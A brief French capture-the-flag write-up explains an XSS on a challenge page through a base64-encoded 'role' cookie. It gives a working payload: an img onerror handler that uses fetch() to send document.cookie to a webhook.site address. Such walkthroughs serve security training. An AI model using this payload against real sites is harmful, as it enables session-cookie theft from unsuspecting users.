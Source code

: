 # Write-up :  5-6-7 - Mac is smart

Ici on a une XSS via le cookie `role` qui est injecté dans le code HTML de la page.
Le role est encodé en base64, et il faut donc encoder notre payload en base64 pour qu'il soit exécuté.

On peut remplacer rôle par 
```html
<img src="x" onerror="fetch('https://webhook.site/uid?c='+document.cookie)"/>
```
On le met en base64 et on l'injecte dans le cookie `role`